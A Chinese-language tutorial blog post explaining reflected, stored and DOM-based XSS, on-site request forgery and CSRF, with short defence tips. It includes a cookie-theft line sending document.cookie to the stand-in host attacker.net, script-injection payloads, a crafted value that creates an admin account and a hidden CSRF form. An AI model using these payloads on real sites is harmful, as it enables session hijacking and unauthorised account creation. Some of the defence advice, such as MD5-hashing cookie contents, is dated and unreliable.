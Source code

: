 ```yaml
---
title: XSS 和 CSRF 两种跨站攻击
layout: post
comments: true
date: 2016-11-26 19:17:15
tags: [Web安全]
categories: Web安全
description: XSS CSRF 两种 跨站 攻击
hot: true
photos:
- http://ww4.sinaimg.cn/mw690/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
- http://ww4.sinaimg.cn/small/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
---
```

差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。

<!--more-->

非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章[SQL 注入详解](http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/)。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。

## XSS 的分类

XSS 漏洞有多种形式，分为三类，反射型、存储型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。

### 反射型 XSS 漏洞

前面废话一大堆，还是没有说 XSS 漏洞到底是什么，别急，慢慢看。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。

用户浏览网页时发送错误，向服务器请求 URL，比如`www.xxx.com/error.php?message=sorry,an error occurred`，然后服务器根据得到的 message，**不进行过滤**，复制到错误页面的模板中：`<p>sorry,an error occurred</p>`，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。`www.xxx.com/error.php?message=<script>alert(1)</script>`，当用户打开错误页面时，就会出现`<p><script>alert(1)</script></p>`，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下

```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：

![](/content/images/2016/11/t5.png)

由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。

### 存储型 XSS 漏洞

存储型跨站脚本也是比较常见的漏洞，脚本通常存储在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。

与反射型的流程不同的是，存储型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据存储，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。

与反射型不同的是，存储型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用存储型的漏洞来获取用户 cookie 进行劫持。

还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而存储型的漏洞，受害者访问页面，说明已经登陆了。

举一个例子，比如某社交论坛存在存储型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息存储并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。

### 基于 DOM 的 XSS 漏洞

前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。

1. 用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；
2. 服务器的响应不包含任何攻击者的脚本，同时服务器也不会对 URL 进行检测；
3. 当用户浏览这个响应时，脚本得以处理。

与反射型漏洞类似，都是对 URL 进行特殊构造，不同的是，反射型是由服务器处理 URL，而 DOM 型是由 JavaScript 脚本来处理。还以刚才那个反射型为例子，假设应用程序返回的错误页面包含以下 JS 脚本：

```
<script>
  var url = document.location;
  var message = /message=(.+)$/.exec(url)[1];
  document.wirte(message);
  //或者
  document.getElementById("show").innerHTML = message;
</script>
```

同样给受害者发送这样的链接 `www.xxx.com/error.php?message=<script>alert(1)</script>`，也可以开展 XSS 漏洞攻击。基于 DOM 的漏洞不局限与 URL，还可以是页面某个 dom 的内容，这和存储型的 XSS 又联系到一起。

## 请求伪造

在 XSS 跨站攻击中，攻击者需要获得受害者的会话令牌，请求伪造也与会话劫持相关，但是攻击者不需要知道受害者的会话令牌，就能够行驶“受害者”的权利。请求伪造有两种，本站点请求伪造（OSRF）和跨站点请求伪造（CSRF），

### OSRF

OSRF 是一种利用存储型 XSS 漏洞的攻击载荷，如果在得知应用程序对 XSS 漏洞过滤的情况下，可以尝试 OSRF 攻击。

比如这是一个某站点 POST 请求，该站点过滤 XSS 攻击，

```
POST /submit.php
Host: xxx.com
Content-Length: ..

type=question&name=get&message=mes
```

然后该信息将会被插入到如下的 HTML 中：

```
<tr>
  <td><img src="/images/question.jpg"></td>
  <td>get</td>
  <td>mes</td>
</tr>
```

这个漏洞很容易找到，直接用 type 的值来表示 jpg 的name，然后我们构造 type 的值等于下面的内容，

```
../admin/newuser.php?username=test&password=123&role=admin#
```

使用上面的介绍，相对应的构造一个表单提交，创建一个管理员权限的用户，普通用户点击是不会成功的，因为权限不够，但是如果是管理员点击该链接的话，就会创建一个秘密账户，所以，即时对 URL 禁用了 JavaScript 脚本，还是可以通过 OSRF 攻击成功。

在攻击字符串的最后使用了 # ，是为了对 .jpg 进行屏蔽，也可以添加 & 组成另一个参数。

以上便是一个简单的本站点请求伪造的例子。

### CSRF

跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。

仍然需要考虑同源策略，仍然以管理员创建新用户为例，

```
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```

黑客构造的网站会提交一个 form 表单，并想办法让 form 隐藏：

```
<<!DOCTYPE html>
<html><body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body></html>
```

当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。

## 总结

其实攻击很简单，主要的还是如何防御，比如

1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
3. 严格控制 URL 访问，对于一些挂马的 ip 和域名，强制无法访问；
4. 等等

共勉。

## 参考

>[跨站脚本攻击介绍](http://blog.csdn.net/yefan2222/article/details/7091863)
>[那些年我们一起学 XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/7.html)
>[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
>书籍：《黑客攻防技术宝典 Web实战篇》
